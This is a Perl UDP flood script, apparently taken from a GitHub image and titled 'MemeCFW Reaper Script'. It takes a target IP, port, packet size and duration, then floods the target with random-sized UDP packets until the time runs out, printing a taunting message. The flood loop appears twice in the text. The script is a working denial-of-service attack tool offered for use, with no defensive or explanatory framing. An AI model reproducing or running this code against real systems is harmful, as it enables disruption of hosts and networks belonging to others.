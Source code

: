 #!/usr/bin/perl

##
#!/usr/bin/perl

use Socket;
use strict;

my ($ip,$port,$size,$time) = @ARGV;

my ($iaddr,$endtime,$psize,$pport);

$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
$endtime = time() + ($time ? $time : 100);
socket(flood, PF_INET, SOCK_DGRAM, 17);


print <<EOTEXT;
               ...
             ;::::;				MemeCFW Reaper Script
           ;::::; :;
         ;:::::'   :;
        ;:::::;     ;.
       ,:::::'       ;           OOO\
       ::::::;       ;          OOOOO\
       ;:::::;       ;         OOOOOOOO
      ,;::::::;     ;'         / OOOOOOO
    ;:::::::::`. ,,,;.        /  / DOOOOOO
  .';:::::::::::::::::;,     /  /     DOOOO
 ,::::::;::::::;;;;::::;,   /  /        DOOO
;`::::::`'::::::;;;::::: ,#/  /          DOOO
:`:::::::`;::::::;;::: ;::#  /            DOOO
::`:::::::`;:::::::: ;::::# /              DOO
`:`:::::::`;:::::: ;::::::#/               DOO
 :::`:::::::`;; ;:::::::::##                OO
 ::::`:::::::`;::::::::;:::#                OO
 `:::::`::::::::::::;'`:;::#                O
  `:::::`::::::::;' /  / `:#
   ::::::`:::::;'  /  /   `#
EOTEXT

print "~MemeCFW just dropped yo shit: $ip " . ($port ? $port : "random") . " With " .
($size ? "$size-byte" : "Smacked With A Large Packets?") . " " .
($time ? "for $time seconds" : "") . "\n";

for (;time() <= $endtime;) {
$psize = $size ? $size : int(rand(1024-64)+64) ;
$pport = $port ? $port : int(rand(65500))+1;

send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport,
$iaddr));}for (;time() <= $endtime;) {
$psize = $size ? $size : int(rand(1024-64)+64) ;
$pport = $port ? $port : int(rand(65500))+1;

send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport,
$iaddr));}
